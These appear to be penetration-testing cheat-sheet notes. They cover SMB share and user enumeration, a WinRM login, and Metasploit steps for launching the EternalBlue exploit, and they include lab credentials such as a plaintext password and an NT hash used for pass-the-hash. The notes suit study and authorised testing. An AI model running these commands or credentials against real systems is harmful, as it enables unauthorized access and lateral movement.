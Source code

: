 > Connect to SMB share
```bash
$ smbclient //10.10.2.2/C$ -U medtech.com/user%Password
$ smbclient //10.10.2.2/transfer -U user --pw-nt-hash 2b87e7c93a3e8a0ea4a581937016f341 -W relia.com
```


On seeing TCP 445 on Windows host:

- Enumerate Host
    - `netexec smb [ip]`
- List Shares
    - `netexec smb [host/ip] -u [user] -p [pass] --shares`
    - `netexec smb [host/ip] -u guest -p '' --shares`
    - `smbclient -N -L //[ip]`
- Enumerate Files
    - `smbclient //[ip]/[share] -N`
    - `smbclient //[ip]/[share] -U [username] [password]`
    - `netexec smb -u [user] -p [pass] -M spider_plus`
    - `smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass` - Kerberos auth
    - `manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`
- User enumeration
    - RID Cycling
        - `lookupsid.py guest@[ip] -no-pass`
        - `netexec smb [ip] -u guest -p '' --rid-brute`
    - SAM Remote Protocol - `samrdump.py [domain]/[user]:[pass]@[ip]`
- Check for Vulnerabilities - `nmap --script smb-vuln* -p 139,445 [ip]`


### RDP (3389 TCP)




### WinRM/5985-5986

```bash
$ crackmapexec winrm 10.129.54.163 -u oscar -p '86LxLBMgEWaKUnBG' 
```


---
# Exploitation

---

## Public Exploits

```bash
$ sudo apt install exploitdb -y           # Install searchsploit
$ searchsploit openssh 7.2	              # Search for public exploits for a web application
$ sudo systemctl start postgresql         # Startup Postgresql DB 
$ msfconsole	                          # MSF: Start the Metasploit Framework
$ search exploit eternalblue	          # MSF: Search for public exploits in MSF
$ use exploit/windows/smb/ms17_010_psexec # MSF: Start using an MSF module
$ show options	                          # MSF: Show required options for an MSF module
$ set RHOSTS 10.10.10.40	              # MSF: Set a value for an MSF module option
$ check	                                  # MSF: Test if the target server is vulnerable
$ exploit	                              # MSF: Run the exploit on the target server is vulnerable
```
